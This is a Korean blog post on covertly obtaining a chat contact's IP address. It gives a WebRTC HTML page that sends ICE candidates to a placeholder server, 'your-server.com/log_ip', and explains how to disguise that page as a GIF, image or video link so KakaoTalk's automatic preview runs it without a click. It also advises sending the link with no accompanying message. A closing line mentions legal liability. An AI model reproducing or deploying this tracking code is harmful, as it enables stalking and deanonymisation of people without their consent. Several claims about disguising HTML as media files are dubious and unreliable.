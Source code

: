 ```yaml
---
title: "사진 한 장으로 아이피 추적하기3- webrtc"
categories: [security]
tags:
  - ects
date: 2025-04-02
---
```

## **원리**

1. **카카오톡 미리보기 기능을 활용** → 상대방이 메시지를 클릭하지 않아도 미리보기로 콘텐츠를 로드.
2. **WebRTC 코드가 포함된 미디어 파일을 서버에서 제공** → 상대방이 보는 순간 WebRTC 실행.
3. **WebRTC를 이용해 상대방의 IP 주소를 서버로 전송.**

---

## **🚀 실전 방법**

### ✅ **1단계: WebRTC IP 추적 코드 제작**

먼저, 상대방이 이미지를 보는 순간 WebRTC IP 추적이 실행되도록 **HTML 페이지**를 만든다.

```html
<!DOCTYPE html>
<html>
<head>
    <title>Loading...</title>
    <script>
        async function getIPs() {
            const pc = new RTCPeerConnection({ iceServers: [{ urls: "stun:stun.l.google.com:19302" }] });
            pc.createDataChannel("");
            pc.createOffer().then(offer => pc.setLocalDescription(offer));

            pc.onicecandidate = event => {
                if (event.candidate) {
                    fetch("https://your-server.com/log_ip", {
                        method: "POST",
                        headers: { "Content-Type": "application/json" },
                        body: JSON.stringify({ ip: event.candidate.candidate })
                    });
                }
            };
        }
        getIPs();
    </script>
</head>
<body>
    <img src="your_image.jpg" alt="Loading..." width="1" height="1">
</body>
</html>

```

✅ **설명**

- 상대방이 **이 HTML 페이지를 미리보기로 보게 되면 WebRTC가 실행되어 IP가 추출됨**.
- `fetch("https://your-server.com/log_ip")` 부분에 실제로 IP를 기록할 서버를 넣어야 함.

---

### ✅ **2단계: HTML을 미디어 파일로 위장**

이 HTML을 직접 보낼 수 없으므로, 카카오톡 미리보기에서 자동으로 로드되도록 변형해야 해.

### **🔹 방법 1: GIF 또는 이미지로 위장**

1. **HTML 파일을 이미지처럼 보이도록 변환**
    - `.html`을 `.png`, `.jpg`, `.gif` 등의 확장자로 변경하면 브라우저가 실행할 가능성이 있음.
    - `https://your-server.com/image.gif` URL을 만들고, HTML 대신 GIF처럼 동작하도록 설정.
2. **카카오톡에서 자동 미리보기가 활성화되는지 확인.**

### **🔹 방법 2: 동영상 파일로 위장**

1. `.mp4` 또는 `.mov` 파일을 만들고, 동영상 썸네일을 WebRTC 실행 코드가 포함된 웹 페이지로 연결.
2. 상대방이 채팅방에서 미리보기로 보는 순간 WebRTC 실행.

---

### ✅ **3단계: 카카오톡에서 미리보기가 자동 실행되는지 확인**

카카오톡에서 특정 링크는 미리보기를 자동으로 생성하는데, 이를 활용해야 함.

### **🔍 카카오톡에서 자동 미리보기 생성되는 링크 유형**

| 유형 | 미리보기 자동 실행 가능 여부 |
| --- | --- |
| 일반 HTML | ❌ (클릭 필요) |
| `.png` / `.jpg` (이미지) | ✅ (자동 실행 가능) |
| `.gif` (움직이는 이미지) | ✅ (자동 실행 가능) |
| `.mp4` / `.mov` (동영상) | ✅ (자동 실행 가능) |

💡 **즉, 상대방이 자동으로 미리보기를 보게 하려면 `.gif`, `.mp4`, `.png` 등의 파일로 위장하는 것이 좋음.**

---

## **🔥 실전 시나리오**

1. **서버 설정:**
    - `https://your-server.com/image.gif` 같은 URL에 WebRTC 추적 코드가 포함된 GIF를 업로드.
    - GIF를 미리보는 순간 WebRTC가 실행되도록 설정.
2. **카카오톡에서 전송:**
    
    ```
    
    https://your-server.com/image.gif
    
    ```
    
    - 상대방이 채팅방에서 미리보기로 보면 WebRTC 실행됨.
    
    <aside>
    💡
    
    냅다 아무 말 없이 보내는게 효과적일 것 같음
    
    </aside>
    
3. **IP 수집 확인:**
    - `your-server.com/log_ip`에서 IP 정보를 확인.

---

## **⚠️ 주의할 점**

- **카카오톡에서 미리보기 기능이 업데이트되면 일부 방법이 막힐 수 있음.**
- **상대방이 VPN을 사용하면 실제 IP가 아닌 VPN 서버 IP가 잡힐 가능성이 있음.**
- **법적인 문제를 고려해야 함. 상대방의 동의 없이 정보를 수집하는 것은 법적 책임이 있을 수 있음.**

---

## **💡 결론**

✅ **가장 효과적인 방법**:

- `.gif` 또는 `.mp4` 형식으로 WebRTC 실행 코드를 숨긴 후, 카카오톡에서 자동 미리보기 실행 유도.
- 상대방이 클릭하지 않아도 채팅방에서 **파일을 보는 순간 WebRTC 실행 가능**.